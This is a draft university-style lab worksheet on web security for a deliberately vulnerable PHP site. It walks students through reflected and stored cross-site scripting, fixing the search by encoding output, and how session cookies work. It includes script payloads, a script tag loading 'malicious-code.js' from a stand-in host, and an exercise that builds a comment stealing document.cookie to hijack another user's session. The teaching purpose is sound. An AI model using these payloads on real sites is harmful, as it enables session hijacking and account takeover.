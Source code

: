 **DRAFT**

Worksheet
========================================================================

Preparation
___________

Start the Virtual Machine and use a browser to navigate to the
web application (port 12342) and Usermin (port 12323).

After logging in, Usermin will show you the contents of ``/home/student``, from
which you can access the web application's code in the ``webapp`` folder.

The web application is a sample website designed to demonstrate
some security vulnerabilities, including those explained in this worksheet.

The first step is to familiarise with the website. You can create an
accout using the "Register" link at the top of the page. The website
allows users to login, view articles, comment them and


Unsanitised output
_____________________

Try and use the search function of the website. This page simply
searches the database for articles by their title.

In this website, the search input is not appropriately sanitised.
Notice that the search functionality of the website returns a webpage with
a heading which counts the number of results and echoes back the search
terms used (i.e. searching for ``Lorem ipsum`` will print ``4 results for "Lorem ipsum"``).

If you insert some HTML code into the input bar, you can notice that
this is not correctly filtered by the application.
For example, if you type ``<u>Hello</u>`` into the search bar and press enter,
you can see that the webpage will display the text underlined, as opposed
to displaying the string as it has been typed. This is
because the HTML ``<u>...</u>`` tag is responsible for underlining text,
and the unfiltered text is interpreted as HTML code by the browser.

**Exploit this functionality to display an arbitrary image from the internet**
**in the search page.**

Hint:
    Try searching the internet for ways to display an image in HTML.

This type of attack is known as *non-persistent*, because the result is
not saved in the website's database, and it needs the attacker to share
the link of the resulting search results page and it only affects users
which click on the malicious link.


Fix the search
______________

The webpage which is responsible for the search is available for you to
edit from Usermin in ``/home/student/webapp/pages/search.php``. You can
make changes to the file, save and reload the webpage to check the result.

If things go wrong and you want to restore the inital version of the file,
simply delete your VM and restart it from a fresh copy.

**TODO: Maybe provide something easier to reset the code?**

PHP files (``.php`` extension) contain HTML code and they may contain some PHP code
between ``<?php`` and ``?>`` tags. PHP code is processed by the server when
a webpage is requested, its output is mixed with the HTML page and only
HTML is returned to the client. Variable names start with a dollar sign (``$``) and all instructions must terminate
with a semicolon (``;``). You can learn more about the language at
http://php.net/manual/en/langref.php.

The ``prepareSearchTerm`` function is used to prepare the string before it
is used to search the articles of the website.

**Change the** ``prepareSearchTerm`` **function to fix the vulnerability.**
**Then test that the string you prepared in the previous excercise,**
**is now innocuous and can't be used to display an image.**

Hint:
    There are a couple of ways you can implement the fix to prevent
    HTML markup from being injected. Symbols, if are not
    intended to be interpreted as code, should be encoded in their
    hexadecimal HTML notation, e.g. ``£`` can be written
    as ``&#163;`` (or its memorable equivalent ``&pound;``).


Injecting Javascript Code
_________________________

Injecting simple formatting in webpages may temporarely
disrupt the layout of the webpage but is not generally a security risk.

Images can be a risk for privacy in some cases, for example if the
image is served by a webserver which is under the control of the attacker,
this can be used to retrieve information about the end user, such as
IP address, the browser used, and whether the user has opened the webpage
or not (this tecquique is known as `web beacon <https://en.wikipedia.org/wiki/Web_beacon>`_).

Probably, the most dangerous HTML code which can be injected into webpages
is Javascript code. This code is automatically executed by the web browser
as soon as it is encountered, and permits a broad range of operations, such as
the manipulation of the DOM (structure of the page), reading cookies and
sending HTTP requests.

There are two ways to insert Javascript in a HTML file:

1. Using a ``<script>...</script>`` tag, including the Javascript code directly
   in between the tags.

2. Hosting the script on different web server, and injecting it using:
   ``<script src="http://example.com/malicious-code.js"></script>``,
   where ``malicious-code.js`` is a file containing Javascript code. This
   is known **XSS**, or Cross-site scripting.

The comments section of the website is vulnerable to XSS but this time
the content of the comments is saved to the database, therefore this
application is vulnerable to *permanent XSS attacks*, which can be vary
dangerous.

**Try typing the following code in the comment box of an article, and observe**
**its effect on you and other users who visit the same page:**

.. code:: javascript

  <script> alert("Hello world"); </script>



How Sessions Work
-----------------

In order to understand identity thefth attacks, it is important to
understand how sessions work in web applications. If you already know
about sessions and cookies, feel free to skip this section.

HTTP (*Hypertext Transfer Protocol*) is the protocol used for the transmission
of webpages and is the foundation of websites and web applications. Its
development began in 1989, before modern web applications, and it was originally
designed to serve as a protocol for simple informative webpages. It is probably
for this reason that HTTP is a *stateless* protocol, meaning that its
specification has no concept of a permanent *session* between a client
and a server.

This may at first seem counterintuitive to readers,
because modern websites and web applications still use HTTP and
certainly do support authentication and other
systems that rely on the concept of the session.

**Cookies and sessions**

In order to keep track of the
current session information, most web applications use techniques such as
session cookies. Cookies are small text files which contain information that is
exchanged back and forth at every request between a client and a server.

At the first visit, the server assigns a random ID to the client, called the
session ID. This is communicated to the client. The server will store locally
any information regarding the current state of the application (the *session*
*data*), such as the authentication status of the user. The client, on the
other hand, will communicate its session ID to the server at every request,
so to receive webpages personalised on the basis of the logged in user.

The security of this method relies on the fact that the session information is
only accessible by the server, and that the session IDs are extremely
hard to guess.

You can try for yourself: most browsers allow users to view the list of cookies.
Try visiting a familiar website and logging in. At this point, you will probably
be able to see some cookie with a name such as "SESSION_ID", "SESSID" or "UID",
which will contain a long random string. Try deleting this cookie and refreshing
the webpage and you will probably be logged out of the website.


Using Javascript to steal the session ID
----------------------------------------

Javascript code has the ability to read and write cookies from and to the
browser. The cookies string can be accessed as the variable ``document.cookie``,
which contains all cookies in a key-value format (``key1=value1; key2=value2; ...``).

Most modern web browsers allow you access a Javascript interpreter,
which can be very useful for prototyping and debugging your Javascript code.
This can generally be accessed under the "Developer Tools" or "Inspector"
menus of your browser.

Open your favourite website and then this console. Typing ``document.cookie``
will probably show you a long list of cookies, which are used for statistics,
sessions, and advertisement profiling.

Intuitively, being able to read the session ID of another user and using it
on your computer, is normally enough to fool the website into believing you
are the other user: this will cause the website to log you in as the other
user.

Javascript code can be used to make HTTP requests in background. These are
known as AJAX requests. For example, you can use
Javascript to post a comment to the article with ID 1 (URL ``...&article_id=1``)
by writing:

.. code:: javascript

  jQuery.post("?page=comment.php",
              {article_id: 1, body: "My comment."});

This method, provided by the jQuery library,
makes a HTTP POST request to the URL ``/?page=comment.php`` with payload
``article_id=1`` and ``body=My comment.``. You can learn more about the
``$.post`` method at https://api.jquery.com/jquery.post/.

**Write a comment with some Javascript code that as soon as it is read,**
**will write a comment to another article, containing the cookie information**
**from the browser the user.**

Hint:
  Try combining the function presented above with the ``document.cookie``
  variable. Don't forget the ``<script></script>`` tags!

**Login with a second user and try visiting the article which has the**
**malicious comment. Verify that the**
**user unknowingly commented on the other article, publishing their session ID.**

**Try to impersonate the other user, without using their credentials.**

Hint:
  To change your session ID, you will need to edit your own cookies.
  Unfortunately, most modern browsers' developer tools allow you only
  to view and delete cookies, but not to edit them. You will need to
  download an extension for your browser in order to edit cookies.

  For example you can use Firebug for Firefox, which is available
  at https://getfirebug.com/downloads/. You can then activate the
  Firebug panel, open the Cookies tab and edit your cookies.

Generally XSS attacks rely on sending the cookies' content to a
third party web server, under the control of the attacker,
as opposed to simply publishing the cookies in the same website.
This is the reason these attacks are known as *Cross-Site*.
